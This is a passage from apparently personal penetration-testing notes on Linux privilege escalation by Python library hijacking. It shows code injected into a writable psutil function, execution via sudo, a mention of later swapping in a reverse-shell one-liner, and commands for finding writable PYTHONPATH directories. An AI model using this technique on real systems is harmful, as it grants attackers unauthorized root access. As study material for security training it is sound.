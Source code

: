        # at the beginning of the 'virtual_memory' function, we can hijack
        # and place our code - start with test code

        # if we run the script with sudo, we should get the desired result
        sudo /usr/bin/python3 ./mem_status.py
        # if it works, we can edit the code with reverse-shell one-liner
        ```

        ```py
        def virtual_memory():
            # test code
            import os
            os.system('id')
        ```

    * Library path:

        ```sh
        # PYTHONPATH listing
        python3 -c 'import sys; print("\n".join(sys.path))'
        # each version has a specific order in which libraries are searched & imported

        # we can exploit this if we have write permissions to one of the paths having a higher priority
        # than the module that is imported by the script

        # suppose the script uses 'psutil' module

        pip3 show psutil
        # shows default installation location

        # check for any misconfigured directory permissions from PYTHONPATH variable
        ls -la /usr/lib/python3.8
        # this is writable
        # and it is higher in priority than the installation location of 'psutil'
